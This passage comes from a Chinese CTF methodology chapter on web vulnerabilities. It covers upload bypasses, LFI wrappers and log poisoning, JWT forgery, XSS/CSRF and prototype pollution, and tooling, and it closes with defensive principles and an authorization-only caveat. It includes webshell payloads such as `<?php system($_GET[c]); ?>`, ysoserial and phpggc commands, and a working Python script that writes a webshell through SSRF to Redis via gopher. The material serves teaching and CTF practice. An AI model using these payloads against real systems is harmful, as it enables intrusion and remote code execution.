文件上传漏洞的核心矛盾在于"业务需要允许用户上传内容"与"上传内容有可能被解释器当成代码执行"之间的张力，攻防围绕"服务端到底信了上传文件的哪个属性"展开：只信**扩展名**的黑名单最脆弱，历史上出现过用 `.phtml`/`.pht`（Apache 特定配置下这些后缀也会被当 PHP 解析）、大小写变体、双写（中间的 `php` 被过滤后前后拼接复原）、末尾加空格或 `.` 绕过；只信**Content-Type 请求头**的更弱，这个字段完全由客户端自行声明，改包工具改一下就绕过；检查**文件内容魔术字节**能挡住最粗糙的绕过，但可以用"图片木马"（合法图片文件尾部拼接可执行代码，配合文件包含单独触发拼接部分）绕过；真正稳妥的做法是**重新编码**（把上传图片重新解码再编码一遍存盘，任何非图片数据在这个过程里都无法幸存）加上**存储位置不可执行**（上传目录挂载为无执行权限、文件名由服务端随机生成而非沿用用户提供的名字）。CTF 里常见的辅助绕过还包括利用 Apache 的 `.htaccess` 上传（若目标目录允许其生效且允许上传该文件本身，可先传 `.htaccess` 重新定义"哪些后缀当 PHP 解析"，再传后缀无害的文件触发执行）；以及利用**条件竞争**——文件先落盘、后校验/删除，中间存在窗口期，用并发请求在文件被删除前抢先访问触发执行。

文件包含分本地包含（LFI）与远程包含（RFI），核心是"把一个由用户输入拼出的路径喂给了 `include`/`require`/`import` 这类会执行文件内容而非单纯读取的函数"。LFI 的路径穿越（`../../../etc/passwd`）本身只能读文件不能执行代码，真正威力在于结合 PHP 的流包装器：`php://filter/convert.base64-encode/resource=config.php` 能在不触发执行的前提下把 PHP 源码 base64 编码后原样读出来（因为编码结果不再是合法 PHP 语法，不会被当代码执行）；`php://input` 允许把 POST 请求体当作可读流，配合 `include php://input` 能把请求体里写的 PHP 代码直接执行；`data://text/plain;base64,<...>` 是另一条直接内联执行任意代码的路径。当直接包含点不可用而应用又允许把请求头/User-Agent 落进日志文件时，还有一条经典的**日志投毒**链路：先发一个 User-Agent 里嵌着 `<?php system($_GET[c]); ?>` 的请求，让这段载荷被 Web 服务器原样写进访问日志，再通过 LFI 把这份日志文件包含进来触发执行——本质仍是"把攻击者能写入的任意位置，和一个会执行文件内容的包含点连起来"。

### 越权、逻辑漏洞、JWT 与 GraphQL

访问控制类漏洞打的不是语法解析层面的破绽，而是**权限模型本身设计或实现的疏漏**——最常见的是 IDOR（不安全的直接对象引用）：接口用一个可预测/可枚举的 ID 直接定位资源，服务端只校验"你登录了没有"却没校验"这个资源是不是你的"，这类漏洞在黑盒测试里几乎无法通过"发单个请求观察响应"发现，必须用两个不同权限的账号交叉测试才能暴露。垂直越权则是低权限用户摸到了本该只有管理员才能调用的接口，常见于"前端隐藏了入口，但接口本身没做服务端权限校验"——CTF 场景下读源码找到未被前端路由暴露、但确实注册了的后台接口，是这类题的标准解法。

条件竞争（race condition）打的是"业务逻辑的一系列检查与动作之间存在时间窗口"，经典案例是优惠券/余额类的 TOCTOU：校验"余额是否充足"和"扣减余额"不是原子操作，用高并发在同一瞬间发出几十个请求，让每个请求都在"看到余额充足"之后才排队执行扣减，最终扣减总额远超实际余额——这类题目对工具的要求与传统改包工具不同，需要能在极短时间窗口内打出高度并发的请求（Burp 的 Turbo Intruder 扩展正是为此设计，能在同一 TCP 连接内把多个请求"背靠背"发出，把服务端处理的时间差压缩到最小）。

JWT（JSON Web Token）相关攻击是越权与密码学的交叉地带，其结构是三段用点号拼接的 Base64URL 编码文本：

```
JWT = base64url(Header) . base64url(Payload) . base64url(Signature)
Header:    {"alg":"HS256","typ":"JWT"}
Payload:   {"sub":"1234567890","name":"admin","iat":1723200000}
Signature: HMAC-SHA256(base64url(Header) + "." + base64url(Payload), secret)
```

签名的意义在于让服务端能验证"这个 Payload 没有被篡改过"，但如果验证逻辑实现有缺陷，攻击者就能绕过这层保证——`alg: none` 攻击是把 Header 里的算法字段改成 `none` 并去掉签名段，如果服务端验证库对该值处理不当，任意构造的 Payload 都会被当成合法 token；**算法混淆（key confusion）**攻击针对同时支持非对称算法（RS256，私钥签名、公钥验证）和对称算法（HS256，同一密钥签名与验证）的验证库：如果服务端签发时用 RS256，但验证逻辑读 Header 声明的算法动态选择验证方式，攻击者就能把 Header 改成 HS256，再**用服务端的 RS256 公钥（通常可公开获取）当作 HS256 的对称密钥去签名**伪造 token；`kid`（key ID）字段如果被业务代码直接拼进文件路径或 SQL 语句用来查找对应密钥，本身又会引发路径穿越或 SQL 注入，是 JWT 攻击面与前述注入类漏洞的交叉点。这些攻击共同的教训是：**任何"信任 token 自身声明的元数据（算法、密钥 ID）来决定如何验证这个 token"的设计，都是在把验证逻辑的决定权交还给攻击者**，稳妥的做法是服务端固定预期算法、不依赖 Header 字段做动态选择。

GraphQL 场景下的越权与信息泄露走的是另一套路径：默认开启的 introspection query（`__schema`/`__type`）能让攻击者在没有任何文档的情况下把整个 API 的字段、类型、参数结构完整拉取出来，相当于自动生成了一份接口文档；权限校验如果只做在 Query 顶层入口、没有做到每个 Resolver/字段级别，攻击者可以通过嵌套查询绕过"顶层看似受限"的入口，直接从关联字段里拿到不该访问的数据；批量查询/别名（aliasing）特性还能把原本受限流的多次请求合并成一次超大请求，绕过基于请求次数的限流与暴力破解防护。

### 客户端战场：XSS / CSRF / 原型链污染

XSS 按"恶意脚本从哪来、活多久"分三类：反射型（payload 随当次请求返回，需诱导受害者点击带 payload 的链接）、存储型（payload 被落库，所有访问到该页面的用户都会中招，危害面最大）、DOM 型（漏洞点完全在前端 JS 里，恶意数据从 `location.hash`/`document.referrer` 等来源流入 `innerHTML`/`eval` 等危险 sink，服务端日志里可能完全看不到这次攻击，因为数据从未真正发送到服务端）。CTF 里 XSS 题的固定范式是配一个"访客机器人"（headless 浏览器脚本，会代表管理员访问你提交的链接），解题目标从"弹个 `alert(1)`"升级为"构造脚本，在机器人访问时窃取管理员 Cookie 并回传到攻击者控制的服务器"，这要求对 CSP（内容安全策略）的绕过手法也要熟悉——CSP 通过白名单限制脚本能从哪些源加载、能不能内联执行，绕过手法包括寻找白名单域下可被利用的"跳板"（如白名单 CDN 域名上存在可被利用为 JSONP 回调的接口）、利用 `nonce` 复用漏洞、或当策略只限制了 `script-src` 而遗漏 `base-uri` 时用 `<base>` 标签劫持相对路径的脚本加载。

CSRF 的防御标配是 CSRF token——服务端为每个表单/会话生成不可预测的随机值，要求关键操作请求必须带上它，因为跨站发起的请求虽然会自动带上 Cookie，却拿不到这个存在页面里的 token。CSRF 题目的漏洞点通常出在校验实现的缝隙：对空值处理不当（不传 token 字段就跳过校验）、token 与用户会话没有强绑定（同一 token 能在不同账号间复用）、`SameSite` Cookie 属性配置为 `None` 或缺省。

原型链污染是 JavaScript 生态特有的一类"软反序列化"问题：JS 对象通过原型链实现属性查找的隐式继承，`Object.prototype` 是几乎所有对象原型链的终点，如果一个"深度合并"函数（常见于配置合并、请求体解析进内部状态对象的场景）在递归合并时没有过滤 `__proto__`/`constructor.prototype` 这类特殊键名，攻击者传入 `{"__proto__":{"isAdmin":true}}` 就能让这条属性污染到全局的 `Object.prototype` 上，此后代码里任何一个对象只要没有自己的 `isAdmin` 属性，属性查找顺着原型链最终都会读到这个被污染的值——影响范围从单个对象扩散到了进程内所有同类对象。原型链污染本身通常不直接等于代码执行，但可以作为**跳板**污染到某个危险 sink 的默认参数（子进程启动选项、模板引擎配置项），从而间接引发 XSS 或 RCE，这也是为什么把它归类在"客户端战场"却经常在服务端 Node.js 代码里造成 RCE 级别后果——原型链污染打破了 JS 语言"对象属性理应各自独立"的隐含假设，是这门语言灵活性的代价。

## 工具视角与实战

拿到题目后的第一件事是**指纹识别**：`whatweb`/Wappalyzer 从响应头（`Server`/`X-Powered-By`）、页面特征、Cookie 命名规律（`PHPSESSID`/`JSESSIONID`/`laravel_session`）快速判断中间件、语言、框架，报错页面暴露的框架版本号往往直接圈定漏洞库范围。**源码泄露排查**是白盒转化的关键一步：探测 `.git/` 目录是否可访问（GitHack/githacker 能把裸露的 `.git` 目录重建成完整仓库，包括历史提交——有时候漏洞点在当前版本已修复，翻提交历史才能看到）、`.svn`、`.DS_Store`、编辑器备份文件，以及最常见的 `docker-compose.yml`/`Dockerfile`/`.env` 直接放在可访问路径下，都是白盒信息的重要来源。目录与接口爆破用 dirsearch/ffuf/feroxbuster，`ffuf` 支持多点位同时 fuzz（路径、参数名、参数值可用不同字典同时爆破）、支持根据响应长度/状态码自动过滤噪音，更适合 CTF 场景下"接口藏得比较刁钻"的题目。

**Burp Suite** 是整个解题流程的中枢：Proxy 拦截请求后丢进 Repeater 反复调整 payload 是手工验证漏洞最基本的动作；被动扫描能在打点阶段发现明显的反射点；Intruder 的四种攻击模式对应不同的参数组合爆破需求，时间盲注的自动化提取常配合 Grep-Extract；扩展生态是 Burp 相对其他代理工具的最大优势——**Turbo Intruder**（HTTP 管线化/多路复用发包，把条件竞争测试所需的"极窄时间窗口内并发"落到实处）、**JWT4B**（自动解码/重签 JWT，配合弱密钥字典跑 HS256 密钥爆破）、**Hackvertor**（复杂编码链一键转换，应对多层混合编码的过滤绕过）、**Param Miner**（自动发现隐藏参数）都是 CTF 高频用到的插件。

**sqlmap** 是 SQL 注入自动化的事实标准，但直接跑默认参数经常在 CTF 题目上失手，关键在于精细化配置：用 `-r request.txt` 直接吃 Burp 导出的原始请求（比手工拼 `-u`/`--data` 更不容易漏掉 Header/Cookie 里的注入点）；`--level`/`--risk` 调高才会测试 Cookie、Header 等更多位置以及更"危险"的 payload；遇到 WAF/自定义过滤时用 `--tamper` 加载篡改脚本（`space2comment`/`between`/`randomcase` 等，本质是用等价语法替换触发黑名单的关键字符）；二阶注入要用 `--second-order` 指定"污染写入点"和"实际触发点"是两个不同 URL；拿到注入点后 `--os-shell`（在 `UNION` 可用且数据库用户有文件读写权限时）可以直接尝试写 webshell 而不只是抽数据。

**白盒题的标准起手式**是先在本地 `docker-compose up --build` 复现题目环境（速度、可重复调试性远胜于对着远程黑盒环境反复试错），配合语言原生的调试器（PHP 的 Xdebug、Python 的 pdb/IDE 断点、Java 远程调试）在怀疑的 sink 函数（`unserialize`/`eval`/`render_template_string`/拼接 SQL 的字符串格式化处）打断点，用真实请求触发后单步观察变量如何从请求参数流动到 sink——这比纯靠"读代码脑内模拟执行"效率高得多，尤其是链路较长、涉及多个中间函数调用的场景。若题目基于某个可识别的开源项目二次开发，把题目源码与该项目对应版本的官方仓库做一次 diff，几乎总能一眼定位出题人"额外修改或新增"的那部分代码——这正是漏洞被人为引入的地方，是白盒 Web 题里性价比最高的审计技巧。

拿到反序列化题后，`ysoserial -p CommonsCollections6 -c "id" | base64` 这类命令是生成 Java payload 的标准动作，`-p` 列出全部内置链后按题目依赖版本挑选；PHP 场景下 `phpggc laravel/rce1 system id` 是等价操作。当内置链都打不通（题目故意规避了常见依赖或版本太新已修复公开链）时，才需要退回手工挖：抓出题目代码里所有定义了魔术方法的类，反向搜索哪些类的哪些属性最终会流向危险函数调用，这也是审计能力向"挖新 gadget"过渡的分水岭。

多步骤利用链的落地离不开**脚本粘合**——单纯靠 Burp 手工点几十次远不如写一段 Python 脚本把"发起 SSRF 请求 → 等待内网服务处理 → 再发一次请求触发落地的 webshell"串成一次调用：

```python
import requests

BASE = "http://target:8000"

# 第一步：通过 SSRF 端点，让服务端向内网 Redis 发起 gopher 协议的"伪装 HTTP 请求"
gopher_payload = (
    "gopher://127.0.0.1:6379/_"
    "%2A1%0D%0A%248%0D%0Aflushall%0D%0A"
    "%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2444%0D%0A"
    "<?php system($_GET['c']); ?>%0D%0A"
    "%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A"
    "%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%249%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A"
    "%2A1%0D%0A%244%0D%0Asave%0D%0A"
)
r = requests.post(f"{BASE}/fetch", data={"url": gopher_payload})
assert r.status_code == 200, "SSRF 触发失败，检查目标是否允许 gopher 协议"

# 第二步：webshell 已落盘，直接调用拿命令执行结果
r2 = requests.get(f"{BASE}/shell.php", params={"c": "cat /flag"})
print(r2.text)
```

这段脚本体现的正是"多步骤链条自动化"的价值——每一步单独看只是一次普通 HTTP 请求，但按依赖顺序编排起来，才是一条完整可复现、可重放的利用链，也是复盘时 writeup 里最该沉淀下来的产出物。

部分现代 Web 题目会把关键校验逻辑（签名算法、License 校验、乃至一部分反作弊）编译成 WASM 下发到浏览器执行，这类题目名义上是"Web"，实际解法要切回逆向工程工具链——用 Edge/Chrome DevTools 的 WASM 调试支持单步跟踪、或直接反编译 `.wasm` 为可读的 WAT/伪 C 代码分析算法，具体方法与 [[40.WASM与虚拟化壳逆向/08.WASM CTF实战]] 的技巧完全通用，是 Web 与 Reverse 方向交界最明显的一类题。类似地，当 Web 题目最终演变成"对着一段登录验证/流量特征做协议还原"时，抓包分析的方法论与 [[72.抓包与协议分析实战/13.抓包实战CTF与漏洞分析]] 相通。

## 安全性与正确使用

Web 漏洞利用直接作用于服务端业务逻辑与真实网络请求，稍有不慎就可能影响到并非题目本身的第三方系统（尤其 SSRF/命令注入类漏洞天然带有"打出题目容器之外"的能力），因此规范环境与合规边界必须先于任何 payload 编写。

> [!caution] 合规与安全边界
> - **仅限授权环境**：本篇所有技术只应在**自有环境、CTF 官方靶场、获得书面授权的安全研究/渗透测试项目**中使用。命令注入、SSRF、反序列化 RCE 一旦离开授权边界，直接构成非法侵入计算机信息系统。
> - **一律防御与教育视角**：讲透 SSTI 沙箱逃逸、Java 反序列化 gadget 链、SSRF 协议走私，目的是让读者能**审计出并修复**这类问题、能读懂真实 CVE 公告背后的原理，而不是把这些手法当作可复用的攻击武器库存量使用。
> - **不提供打真实生产目标的成品配方**：文中的 payload 与脚本均为教学示例，面向题目自身可控的容器环境；不提供、也不背书任何针对真实生产系统、他人网站或未授权资产的定向利用步骤。
> - **不为绕过商业授权提供武器化能力**：涉及的反序列化/权限校验绕过手法若被用于破解商业软件授权校验、绕过付费墙，超出本篇讨论范围，本篇不提供相关配方。
> - **敏感信息与 flag 的边界**：CTF 中即便通过合法授权拿到了本不该拿到的服务器权限，也应遵守赛事规则（不横向攻击其他战队环境、不利用漏洞破坏平台可用性），真实项目中发现的漏洞应走负责任的漏洞披露流程。

把前一节的每类漏洞倒过来看，就是对应的防御原则，而且几乎都遵循同一条元规律——**用结构化的边界替代字符串层面的过滤**：SQL 注入的根治手段是参数化查询/预处理语句，让用户输入永远只能落进"数据"的语义槽位，数据库驱动层面就不会把它当语法解析；黑名单过滤永远是"打补丁"式的临时方案，因为规则总是滞后于攻击者能想到的新编码变体。SSTI 的治本方法是坚决不把用户输入拼进模板源码，凡是必须支持"用户自定义模板"的业务场景，要用明确设计为无反射能力的沙箱环境（更彻底的方式是自行实现一个不支持属性访问、只支持预注册变量替换的极简模板语法）。反序列化的根治方法不是"堵挂件"而是**不要对不可信数据做原生语言级反序列化**——能用 JSON/Protobuf 等纯数据格式传输就不用 Java 原生序列化，Java 侧若必须用可配合 `ObjectInputFilter` 做类白名单过滤，PHP 侧优先用 JSON 存储会话/缓存数据而非 `serialize()`。SSRF 的防御要在**实际发起连接前对已解析 IP 做网段校验**而非只校验 URL 字符串，同时协议层面白名单只放行 `http(s)`。文件上传要"检查魔术字节 + 重新编码 + 存储目录不可执行 + 文件名服务端重新生成"四道合一。越权类漏洞没有一次性打补丁的捷径，唯有在**每一个访问具体资源的接口里都做一次"当前用户是否有权访问这个具体资源 ID"的服务端校验**，不能依赖前端隐藏入口或"业务上不太可能被猜到"的侥幸。

需要强调的是，WAF/IPS 这类边界防护设备是纵深防御里的一层，不是漏洞本身的修复——WAF 靠特征匹配拦截已知攻击模式，天然存在被编码变体、大小写混合、注释穿插绕过的可能（这也是 CTF 里"WAF 绕过"本身能单独成为一个考点的原因），真正的修复必须落在代码层面消除注入点。CTF 环境为保证题目"有限时间内可解"，往往刻意去掉了 WAF 这层噪音、把日志监控与告警也一并省略，这与真实渗透测试/红队评估里需要同时考虑"绕过检测""留痕最小化""影响范围控制"的复杂度完全不是一个量级——CTF 练的是漏洞原理与利用链构造的"纯粹版本"，是真实安全工作的必要非充分条件，拿到 CTF Web 高分不等于具备独立负责生产环境安全评估的全部能力，复盘时应当有意识地把"这道题省略了什么真实约束"补进认知里。

## 小结

Web 解题范式最终收束成一条思维链：先靠指纹识别与源码泄露排查把"黑盒"尽量转化成"白盒"，再用统一的信任边界模型——不可信输入流向哪个解释器——把纷繁的漏洞现象归到 SQL/命令注入、SSTI、反序列化、SSRF/XXE、文件上传与包含、越权与逻辑漏洞、XSS/CSRF/原型链污染这七个家族里。每个家族的利用链构造思路虽语法细节各异，底层逻辑却高度一致：注入类是"让解释器分不清数据与指令"，反序列化是"让魔术方法带着攻击者数据自动跑起来"，SSRF/XXE 是"滥用服务端一个善意的网络/文件访问特性"，越权是"权限模型本身留了没校验的缝"。SSTI 沙箱逃逸的 `__class__`/`__mro__`/反射链，与 Java 反序列化的 gadget chain，本质都是"顺着语言自省能力找一条通往危险 sink 的合法路径"而非传统意义上的越界——这是 Web 漏洞与 Pwn 内存破坏类漏洞在思维方式上最根本的分野，也是审计 Web 代码时应建立的核心直觉。工具链上，Burp Suite 是手工调试与探测的中枢，sqlmap/dirsearch/ffuf 负责机械化扫描，ysoserial/PHPGGC 把公开 gadget 链的生成自动化，而本地 `docker-compose` 复现源码环境配合 IDE 断点、以及对已知开源项目做版本 diff，是白盒题效率最高的两把钥匙。防御视角回看，几乎所有根治手段都指向同一条元规律——用结构化边界（参数化查询、无反射能力的沙箱、数据格式而非原生序列化、发起连接前的网段校验、服务端资源级权限校验）替代字符串层面的黑名单过滤，后者注定滞后于攻击者的编码变体创新。逐类漏洞的纵深原理见系列 57，下一篇转向 Misc 与取证方向，同样需要这套"先建攻击面模型、再逐类排查"的方法论骨架。

## 相关阅读

- [[01.CTF全景与赛制与工具链|↔ ch01：CTF全景与赛制（Web 在五大方向里的定位）]]
- [[07.静态与动态分析速查|↔ ch07：静态与动态分析速查（多语言代码审计技能可迁移）]]
- [[11.赛后复盘与writeup方法|→ ch11：赛后复盘（把利用链沉淀成可复用模板）]]
- [[57.Web与应用层安全/00.Web与应用层安全总览|系列57 总览：Web 与应用层安全（原理详解层）]]
- [[57.Web与应用层安全/04.注入类漏洞：SQL与命令与模板|系列57·04：注入类漏洞纵深（SQL/命令/SSTI 原理详解）]]
- [[57.Web与应用层安全/09.反序列化漏洞|系列57·09：反序列化漏洞纵深]]
- [[57.Web与应用层安全/06.CSRF与SSRF|系列57·06：CSRF 与 SSRF 原理]]
- [[57.Web与应用层安全/10.文件上传与路径穿越|系列57·10：文件上传与路径穿越]]
- [[57.Web与应用层安全/08.访问控制与越权|系列57·08：访问控制与越权]]
- [[57.Web与应用层安全/12.JWT与OAuth与OIDC安全|系列57·12：JWT 与 OAuth/OIDC 安全]]
- [[57.Web与应用层安全/13.Web漏洞工具链：BurpSuite|系列57·13：Burp Suite 工具链详解]]
- [[40.WASM与虚拟化壳逆向/08.WASM CTF实战|Web/Reverse 交界：客户端 WASM 校验逻辑逆向]]
- [[72.抓包与协议分析实战/13.抓包实战CTF与漏洞分析|流量呼应：抓包分析在 Web/协议还原类题目中的应用]]
- 官方文档与规范：OWASP Top 10、OWASP Testing Guide、RFC 7231（HTTP/1.1 语义）、RFC 7519（JSON Web Token）
- 工具与项目主页：Burp Suite、sqlmap、ysoserial、PHPGGC、dirsearch / ffuf

[[00.CTF方法论体系总览|⬆ 系列总览]] | [[04.Crypto解题范式|← 上一章]] | [[06.Misc与取证与隐写|→ 下一章]]
